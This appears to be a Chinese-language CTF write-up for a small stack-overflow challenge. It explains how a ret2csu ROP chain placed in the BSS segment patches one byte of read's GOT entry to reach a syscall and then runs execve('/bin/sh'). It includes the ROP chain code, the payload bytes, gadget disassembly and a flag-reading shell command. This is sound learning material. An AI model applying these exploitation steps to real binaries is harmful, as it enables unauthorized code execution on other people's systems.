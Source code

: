 # 漏洞点
如下所示，明显的缓冲区溢出漏洞，且got表里没有可利用的其他函数！！无法泄露地址！！oh my gad！
```
ssize_t __fastcall main(__int64 a1, char **a2, char **a3)
{
  char buf; // [rsp+0h] [rbp-10h]@1

  return read(0, &buf, 0x20uLL);
}
```

# 漏洞的利用
&#8195;分析上述的漏洞可以看出，这里只能写入0x20个字节，也就是只能覆盖ebp和esp，因此在栈中构造rop链是不可能的，所以考虑向bss段写入数据，在bss段构造rop<br>
<br>
&#8195;参见大佬的rop链如下，这里主要分析为什么要这么构造rop链
```
rop = p64(pop_rbx_rbp_r12_r13_r14_r15_ret)
rop += p64(0x0) #rbx
rop += p64(0x1) #rbp
rop += p64(read_got) #r12
rop += p64(0x3b) #r13
rop += p64(read_got - 0x3a) #r14
rop += p64(0x0) #r15
rop += p64(0x400570) #ret
rop += p64(0x41414141)

rop += p64(0x0) #rbx
rop += p64(0x1) #rbp
rop += p64(read_got) #r12
rop += p64(0x600e00) #r13
rop += p64(0x600e00) #r14
rop += p64(read_got - 0x3a) #r15
rop += p64(0x400570) #ret
```
1、rop在一开始使用了一个gadget将构造的数据存储到寄存器中
2、这里需要关注ret的地址，观察这些寄存器的使用方式，在IDA pro中查看0x400570处的指令如下，为init函数的一部分。该部分代码的操作如下：
（1）将r13、r14、r15的值分别赋给了rdx、rsi、edi
（2）call  [r12+rbx*8] 的操作即为 call read_got，这也说明了为什么在构造参数的时候需要将r12赋值为read_got，rbx赋值为0，同时read的参数被赋值为0、read_got - 0x3a、0x3b，即调用read（0，read_got - 0x3a，0x3b），此函数的返回值为0x3b存储在eax中（这里设置为0x3b主要是因为execve（）的系统调用号为0x3b）。此时在调用read函数，传入的payload如下所示，该payload将“/bin/sh”参数写入了read_got-0x3a处，同时将read_got的最后一个字节改为了0xee（这里进行的这一波骚操作，主要是利用read函数比较短，syscall距离read函数的起始地址也比较短，遍历最后一个字节，应该就可以找到call syscall的地址，于是就将read_got修改为这一地址，并将eax赋值为execve的调用号）

```
payload = '/bin/sh'.ljust(0x3a, '\x00') + '\xee'
```
 
（3）为了绕过后续jnz的跳转，这里将ebp赋值为了1
（4）add rsp，8 于是在rop链后跟随了8个字节的‘a’
（5）这堆gadget，进行了一波同样的操作，这里由于在调用read_got时直接相当于call execve，因此只需要给第一个参数edi赋值为“/bin/sh”的地址即可，剩下两个参数可以随便赋值，然后再传送一波命令行参数的payload即可获取flag
```
payload1 = 'ls /home; ls /home/*; cat /home/readable/flag; cat /flag;\n'
```

```
.text:0000000000400570 loc_400570:                             ; CODE XREF: init+54j
.text:0000000000400570                 mov     rdx, r13
.text:0000000000400573                 mov     rsi, r14
.text:0000000000400576                 mov     edi, r15d
.text:0000000000400579                 call    qword ptr [r12+rbx*8]
.text:000000000040057D                 add     rbx, 1
.text:0000000000400581                 cmp     rbx, rbp
.text:0000000000400584                 jnz     short loc_400570
.text:0000000000400586
.text:0000000000400586 loc_400586:                             ; CODE XREF: init+36j
.text:0000000000400586                 add     rsp, 8
.text:000000000040058A                 pop     rbx
.text:000000000040058B                 pop     rbp
.text:000000000040058C                 pop     r12
.text:000000000040058E                 pop     r13
.text:0000000000400590                 pop     r14
.text:0000000000400592                 pop     r15
.text:0000000000400594                 retn
.text:0000000000400594 init            endp
```

# get到点
1、第一次学到利用init函数里的代码来实现相应的操作
2、这里采用暴力的方式，破解出call syscall的地址，同时又巧妙的将eax设置为了0x3b
3、由于此题一次只能写入0x20，而且根据程序的执行逻辑，一次写入的有效数据是0x10，因此需要通过循环来写入数据。同时通过另一个bss缓冲区来作为跳转，实现程序的正常功能

